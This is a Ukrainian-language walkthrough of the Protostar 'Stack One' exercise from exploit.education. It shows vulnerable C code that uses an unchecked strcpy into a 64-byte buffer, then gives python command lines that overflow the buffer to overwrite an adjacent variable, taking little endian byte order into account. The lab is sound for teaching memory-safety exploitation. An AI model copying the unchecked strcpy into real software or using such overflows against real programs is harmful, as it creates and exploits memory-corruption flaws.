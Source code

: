 ## [Stack One](http://exploit.education/protostar/stack-one/)

На даному рівні розглядається концепція модифікації змінних до певних значень у програмі та спосіб розміщення змінних у пам’яті.

Переходимо у директорію із завданням:  
```cd /opt/protostar/bin/```

Вихідний код:  
```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];

  if(argc == 1) {
      errx(1, "please specify an argument\n");
  }

  modified = 0;
  strcpy(buffer, argv[1]);

  if(modified == 0x61626364) {
      printf("you have correctly got the variable to the right value\n");
  } else {
      printf("Try again, you got 0x%08x\n", modified);
  }
}
```

Код схожий до попереднього рівня. У нас досі є ```volatile``` і буфер на 64 байти. Але замість ```gets()``` використовується ```strcpy()```. 
Дана функція приймає два аргументи: ```destination``` і ```source```. Вона копіює дані із рядка, на який вказує аргумент ```source```, у рядок, на який вказує аргумент ```destination```, 
поки не зустрінеться символ кінця рядка. Копіювання відбувається разом із символом кінця рядка. Якщо рядки перекриваються, то результат копіювання буде невизначений.  
Ще однією відмінністю від попереднього рівня є те, що змінна ```modified``` повинна дорівнювати ```0x61626364```.  

Спробуємо запусти код із попереднього рівня для перевірки результату. Тільки цього разу потрібно скористатися BASH для підстановки значення, щоб використовувати наш вивід у якості аргументу:  
```./stack1 $(python -c "print 'a' * 65")```

У результаті буде отримано: "Try again, you got 0x00000061". Якщо подивитися у таблицю ASCII-символів, то символ 'a' якраз має значення 0x00000061 у шістнадцятковій системі. 
До речі, ```0x61626364``` очевидно буде 'abcd'. Отже, можна просто ввести 64 символи у буфер, а останніми задати 'abcd'. 
Але насправді тут є один нюанс під назвою little endian (числа у пам'яті перевернуті). Отже, потрібно зробити реверс рядка. Маємо наступну команду:  
```./stack1 $(python -c "print('a' * 64 + 'abcd'[::-1])")```

Ну або більш універсальний спосіб (щоб не вгадувати коди необхідних символів):  
```./stack1 $(python -c "print('a' * 64 + '\x61\x62\x63\x64'[::-1])")```
